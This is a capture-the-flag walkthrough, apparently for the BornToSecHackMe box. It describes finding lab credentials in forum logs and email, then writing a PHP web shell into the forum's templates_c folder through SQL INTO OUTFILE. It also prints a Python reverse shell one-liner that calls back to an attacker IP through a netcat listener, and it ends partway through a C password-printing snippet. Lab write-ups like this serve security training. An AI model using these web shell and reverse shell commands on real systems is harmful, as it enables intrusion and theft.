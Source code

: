 i tried brut forcing the url i found those url:

> /forum, /webmail, /phpmyadmin

in the forum i found login problem and logs repport in this log lmezard try to use this password *!q\]Ej?*5K5cy*AJ* i got the email `laurie@borntosec.net` from lmezard profil and i use it in webmail with the same password

`Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2`

in the box i found db access mail contain the user/password database _root/Fg-'kKXBj87E:aJ$_

```

Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

I used what we call php reverse shell i create a file in _/forum/templates_c_ and i execute on it my command

```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/tmp.php';
nc -l 80
https://url/forum/templates_c/tmp.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

this command let you use bash in this machine and then i found a file in /home/LOOKATME/password contain this password _lmezard:G!@M6f4Eatau{sF"_
now Use ftp to connect with this credentiels.

fun file :

```
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
```